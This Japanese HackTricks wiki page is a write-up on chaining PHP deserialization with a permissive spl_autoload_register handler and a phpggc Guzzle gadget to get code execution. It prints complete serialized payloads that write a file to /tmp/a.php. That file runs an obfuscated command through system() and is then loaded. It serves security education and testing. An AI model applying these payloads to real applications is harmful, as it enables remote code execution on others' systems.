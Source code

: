 # PHP - デシリアライズ + オートロードクラス

{% hint style="success" %}
AWSハッキングを学び、実践する：<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCPハッキングを学び、実践する：<img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローしてください。**
* **ハッキングトリックを共有するには、[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。**

</details>
{% endhint %}

まず、[**オートロードクラス**](https://www.php.net/manual/en/language.oop5.autoload.php)が何であるかを確認する必要があります。

## PHPデシリアライズ + spl\_autoload\_register + LFI/Gadget

私たちは、**`phpggc`**内にガジェットに脆弱なライブラリが**ない**ウェブアプリで**PHPデシリアライズ**を見つけた状況にいます。しかし、同じコンテナ内には**脆弱なライブラリを持つ別のComposerウェブアプリ**がありました。したがって、目標は**他のウェブアプリのComposerローダーをロードし、それを悪用してデシリアライズに脆弱なウェブアプリのライブラリを攻撃するガジェットをロードすること**でした。

手順：

* **デシリアライズ**を見つけ、現在のアプリコードには**ガジェットがない**
* 次のような**`spl_autoload_register`**関数を悪用して、**`.php`拡張子のローカルファイルをロードする**
* そのために、クラス名が**`$name`**内に入るデシリアライズを使用します。シリアライズされたオブジェクトのクラス名には**"/"や"."**を使用できませんが、**コード**は**アンダースコア**("\_")を**スラッシュ**("/")に**置き換えています**。したがって、`tmp_passwd`のようなクラス名は`/tmp/passwd.php`に変換され、コードはそれをロードしようとします。\
**ガジェットの例**は：**`O:10:"tmp_passwd":0:{}`**です。
```php
spl_autoload_register(function ($name) {

if (preg_match('/Controller$/', $name)) {
$name = "controllers/${name}";
} elseif (preg_match('/Model$/', $name)) {
$name = "models/${name}";
} elseif (preg_match('/_/', $name)) {
$name = preg_replace('/_/', '/', $name);
}

$filename = "/${name}.php";

if (file_exists($filename)) {
require $filename;
}
elseif (file_exists(__DIR__ . $filename)) {
require __DIR__ . $filename;
}
});
```
{% hint style="success" %}
もし**ファイルアップロード**があり、**`.php`拡張子**のファイルをアップロードできる場合、この機能を**直接悪用**して、すでにRCEを取得することができます。
{% endhint %}

私の場合、そのようなものはありませんでしたが、**同じコンテナ**内に**`phpggc`ガジェットに脆弱なライブラリ**を持つ別のcomposerウェブページがありました。

* この別のライブラリを読み込むには、まず**その別のウェブアプリのcomposerローダーを読み込む必要があります**（現在のアプリケーションのものでは他のライブラリにアクセスできません）。**アプリケーションのパスを知っていれば**、次のように非常に簡単に実現できます：**`O:28:"www_frontend_vendor_autoload":0:{}`**（私の場合、composerローダーは`/www/frontend/vendor/autoload.php`にありました）
* さて、他の**アプリのcomposerローダーを読み込む**ことができるので、**使用するための`phpgcc`** **ペイロードを生成する**時が来ました。私の場合、**`Guzzle/FW1`**を使用し、これにより**ファイルシステム内の任意のファイルを書き込む**ことができました。
* 注：**生成されたガジェットは機能しませんでした**。機能させるために、**`chain.php`**のphpggcペイロードを**修正**し、**すべての属性**を**プライベートからパブリックに**設定しました。そうしないと、文字列をデシリアライズした後、作成されたオブジェクトの属性には値がありませんでした。
* これで、**他のアプリのcomposerローダーを読み込む方法**があり、**機能するphpggcペイロード**も手に入れましたが、**ガジェットが使用されるときにローダーが読み込まれるためには、同じリクエスト内でこれを行う必要があります**。そのため、次のように両方のオブジェクトを含むシリアライズされた配列を送信しました：
* **最初にローダーが読み込まれ、その後ペイロードが表示される**のがわかります。

{% code overflow="wrap" %}
```php
a:2:{s:5:"Extra";O:28:"www_frontend_vendor_autoload":0:{}s:6:"Extra2";O:31:"GuzzleHttp\Cookie\FileCookieJar":4:{s:7:"cookies";a:1:{i:0;O:27:"GuzzleHttp\Cookie\SetCookie":1:{s:4:"data";a:3:{s:7:"Expires";i:1;s:7:"Discard";b:0;s:5:"Value";s:56:"<?php system('echo L3JlYWRmbGFn | base64 -d | bash'); ?>";}}}s:10:"strictMode";N;s:8:"filename";s:10:"/tmp/a.php";s:19:"storeSessionCookies";b:1;}}
```
{% endcode %}

* さて、**ファイルを作成して書き込む**ことができますが、ユーザーは**ウェブサーバー内の任意のフォルダーに書き込むことができません**。したがって、ペイロードに示されているように、PHPは**`system`**を呼び出し、**base64**を使用して**`/tmp/a.php`**に作成されます。次に、他のウェブアプリのコンポーザーローダーを読み込むために、最初のタイプのペイロードを**再利用**して、生成された**`/tmp/a.php`**ファイルを読み込みます。それをデシリアライズガジェットに追加するだけです:&#x20;

{% code overflow="wrap" %}
```php
a:3:{s:5:"Extra";O:28:"www_frontend_vendor_autoload":0:{}s:6:"Extra2";O:31:"GuzzleHttp\Cookie\FileCookieJar":4:{s:7:"cookies";a:1:{i:0;O:27:"GuzzleHttp\Cookie\SetCookie":1:{s:4:"data";a:3:{s:7:"Expires";i:1;s:7:"Discard";b:0;s:5:"Value";s:56:"<?php system('echo L3JlYWRmbGFn | base64 -d | bash'); ?>";}}}s:10:"strictMode";N;s:8:"filename";s:10:"/tmp/a.php";s:19:"storeSessionCookies";b:1;}s:6:"Extra3";O:5:"tmp_a":0:{}}
```
{% endcode %}

**ペイロードの概要**

* **同じコンテナ内の別のウェブアプリのcomposerオートロードを読み込む**
* **phpggcガジェットを読み込む** ことで、他のウェブアプリのライブラリを悪用する（最初のウェブアプリはデシリアライズに脆弱で、ライブラリにガジェットがなかった）
* ガジェットは、/tmp/a.phpに悪意のあるコマンドを含む**PHPペイロードのファイルを作成する**（ウェブアプリのユーザーは、どのウェブアプリのフォルダーにも書き込むことができない）
* ペイロードの最終部分は、**生成されたPHPファイルを読み込む**ことでコマンドを実行する

私はこのデシリアライズを**2回呼び出す必要があった**。私のテストでは、最初の時に/tmp/a.phpファイルが作成されたが読み込まれず、2回目に正しく読み込まれた。

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
